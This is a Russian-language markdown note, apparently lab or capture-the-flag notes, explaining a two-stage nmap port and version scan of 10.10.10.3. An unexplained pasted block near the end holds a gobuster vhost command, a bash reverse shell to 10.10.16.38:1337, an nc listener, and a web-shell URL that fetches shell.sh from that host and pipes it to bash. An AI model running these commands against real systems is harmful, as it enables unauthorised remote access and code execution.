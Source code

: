 # N073800K
Этот скрипт выполняет двухэтапное сканирование сети с использованием инструмента `nmap`:

---

### **1. Первая часть: Сканирование всех портов**
```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.3 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
```

#### Разбор команды:
1. **`nmap -p- --min-rate=1000 -T4 10.10.10.3`:**
   - `-p-`: Сканирует все возможные порты (от 1 до 65535).
   - `--min-rate=1000`: Устанавливает минимальную скорость отправки пакетов (1000 пакетов в секунду).
   - `-T4`: Указывает агрессивный режим сканирования (быстрее, но может быть более заметен для сетевых систем).
   - `10.10.10.3`: IP-адрес цели.

2. **`grep '^[0-9]'`:**
   - Выбирает строки, начинающиеся с цифр. Это фильтрует только те строки, которые содержат информацию о портах (например, `80/tcp open`).

3. **`cut -d '/' -f 1`:**
   - Разделяет строку по символу `/` и выбирает первую часть, то есть номер порта (например, из строки `80/tcp open` останется только `80`).

4. **`tr '\n' ','`:**
   - Заменяет символы новой строки (`\n`) на запятые, чтобы получить список портов в формате `80,443,22`.

5. **`sed s/,$//`:**
   - Удаляет последнюю запятую из строки, чтобы список портов выглядел корректно (например, `80,443,22` вместо `80,443,22,`).

6. **`ports=$(...)`:**
   - Результат выполнения всей команды сохраняется в переменную `ports`.

---

### **2. Вторая часть: Подробное сканирование найденных портов**
```bash
nmap -p$ports -sC -sV 10.10.10.3
```

#### Разбор команды:
1. **`-p$ports`:**
   - Указывает, что нужно сканировать только те порты, которые были найдены в первой части (хранятся в переменной `$ports`).

2. **`-sC`:**
   - Запускает стандартные скрипты Nmap для обнаружения дополнительной информации о службах, работающих на открытых портах.

3. **`-sV`:**
   - Пытается определить версии программного обеспечения, работающего на каждом открытом порту.

4. **`10.10.10.3`:**
   - IP-адрес цели.

---

### **Что делает весь скрипт?**
1. На первом этапе сканируются **все порты** целевого хоста (`10.10.10.3`), и находятся открытые порты.
2. На втором этапе выполняется более детальное сканирование **только открытых портов**, чтобы собрать дополнительную информацию о службах и их версиях.

---

### **Пример вывода**
Предположим, что первое сканирование нашло следующие открытые порты: `22,80,443`. Тогда команда будет эквивалентна:
```bash
nmap -p22,80,443 -sC -sV 10.10.10.3
```

Результат может выглядеть так:
```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
```

---
#gobuster vhost -w /home/lolkek/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://target.com --append-domain.com


#!/bin/bash
bash -i >& /dev/tcp/10.10.16.38/1337 0>&1

nc -nvlp 1337
python3 -m http.server 8000


http://target.com/shell.php?cmd=curl%2010.10.16.38:8000/shell.sh|bash
---

### **Важные замечания**
1. **Права доступа:** Для выполнения таких сканирований могут потребоваться права суперпользователя (`sudo`), особенно если используется агрессивный режим (`-T4`).
2. **Этика использования:** Используйте этот скрипт только на тех системах, где у вас есть разрешение на проведение сканирования. Несанкционированное использование может быть незаконным.
3. **Зависимость от Nmap:** Убедитесь, что у вас установлен `nmap`, так как это основной инструмент для работы.

---
